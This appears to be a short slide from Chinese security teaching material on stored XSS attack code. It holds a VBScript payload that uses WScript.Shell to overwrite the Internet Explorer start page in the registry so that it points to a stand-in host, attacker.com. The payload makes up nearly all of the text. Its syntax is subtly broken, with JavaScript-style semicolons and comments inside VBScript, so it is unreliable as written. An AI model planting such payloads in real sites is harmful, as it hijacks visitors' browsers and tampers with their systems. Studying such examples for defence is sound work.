

存储型XSS攻击JS代码
修改注册表（IE 主页）：

<script language="VBScript">
Set RegWsh = CreateObject("WScript.Shell");

//设置IE浏览器默认页
RegWsh.RegWrite("HKCU\Software\Microsoft\Internet Explorer\Main\Start Page", "http://www.attacker.com");
</script>